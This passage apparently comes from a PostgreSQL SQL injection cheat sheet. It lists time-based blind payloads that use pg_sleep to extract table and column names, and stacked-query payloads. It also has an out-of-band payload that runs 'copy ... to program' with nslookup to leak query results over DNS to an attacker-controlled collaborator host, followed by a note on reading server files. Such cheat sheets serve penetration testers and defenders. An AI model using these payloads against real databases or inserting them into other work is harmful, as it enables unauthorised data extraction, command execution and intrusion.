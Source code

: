 ```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

#### Columns Dump Time Based

```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```

```sql
AND 'RANDSTR'||PG_SLEEP(10)='RANDSTR'
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Out of Band

Out-of-band SQL injections in PostgreSQL relies on the use of functions that can interact with the file system or network, such as `COPY`, `lo_export`, or functions from extensions that can perform network actions. The idea is to exploit the database to send data elsewhere, which the attacker can monitor and intercept. 

```sql
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```


## PostgreSQL Stacked Query

Use a semi-colon "`;`" to add another query

```sql
SELECT 1;CREATE TABLE NOTSOSECURE (DATA VARCHAR(200));--
```


## PostgreSQL File Manipulation

### PostgreSQL File Read

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [0fdc8495bff02684142a44ab3bc5b18a8ca1863a](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.
